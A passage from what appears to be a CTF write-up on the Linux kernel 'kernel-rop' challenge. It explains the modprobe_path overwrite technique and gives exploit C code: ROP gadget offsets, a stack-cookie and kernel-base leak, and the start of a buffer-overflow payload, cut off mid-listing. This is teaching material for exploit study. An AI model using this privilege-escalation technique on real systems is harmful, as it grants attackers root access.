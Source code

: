 In short, whatever file whose path is currently stored in `modprobe_path` will be executed when we issue the system to execute a file with an unknown file type. Therefore, the plan of this technique is to use an arbitrary write primitive to overwrite `modprobe_path` into a path to a shell script that we have written ourselves, then we execute a dummy file with an unknown file signature. The result is that the shell script will be executed when the system is still in kernel mode, leading to an ***arbitrary code execution with root privileges***.

To see the technique in action, let's write a payload for `kernel-rop`.

## The payload
### Gathering gadgets and addresses
The prerequisites for the technique is as follow:
1. knowing the address of `modprobe_path`.
2. knowing the address of `kpti_trampoline` in order to cleanly return to userland after overwriting `modprobe_path`.
3. having an arbitrary write primitive.

In the case of a stack buffer overflow that we have in this challenge, those 3 prerequisites are actually in fact converge to just one, which is knowing the kernel image base, here's why:
- Interestingly, both `modprobe_path` and `kpti_trampoline` are unaffected by `FG-KASLR`, so their addresses are a constant offset from the kernel image base.
- For the arbitrary write, we can use these 3 gadgets, which reside in the area at the start of the kernel, which is unaffected by `FG-KASLR`:
```C
unsigned long pop_rax_ret = image_base + 0x4d11UL; // pop rax; ret;
unsigned long pop_rbx_r12_rbp_ret = image_base + 0x3190UL; // pop rbx ; pop r12 ; pop rbp ; ret;
unsigned long write_ptr_rbx_rax_pop2_ret = image_base + 0x306dUL; // mov qword ptr [rbx], rax; pop rbx; pop rbp; ret;
```

We leak the kernel image base and calculate those addresses by using the `hackme_read()` operation:
```C
void leak(void){
    unsigned n = 40;
    unsigned long leak[n];
    ssize_t r = read(global_fd, leak, sizeof(leak));
    cookie = leak[16];
    image_base = leak[38] - 0xa157ULL;
    kpti_trampoline = image_base + 0x200f10UL + 22UL;
    pop_rax_ret = image_base + 0x4d11UL;
    pop_rbx_r12_rbp_ret = image_base + 0x3190UL;
    write_ptr_rbx_rax_pop2_ret = image_base + 0x306dUL;
    modprobe_path = image_base + 0x1061820UL;

    printf("[*] Leaked %zd bytes\n", r);
    printf("    --> Cookie: %lx\n", cookie);
    printf("    --> Image base: %lx\n", image_base);
}
```

### Overwriting modprobe_path
After leaking, the goal now is to overwrite `modprobe_path` into a path to a file that we can control. In most linux system, we can freely read and write into the `/tmp` directory as any user, therefore, I will overwrite `modprobe_path` into a file called `/tmp/x` by using the 3 gadgets mentioned above, then safely return to the function `get_flag()` in userland after going through the `kpti_trampoline`:
```C
void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
```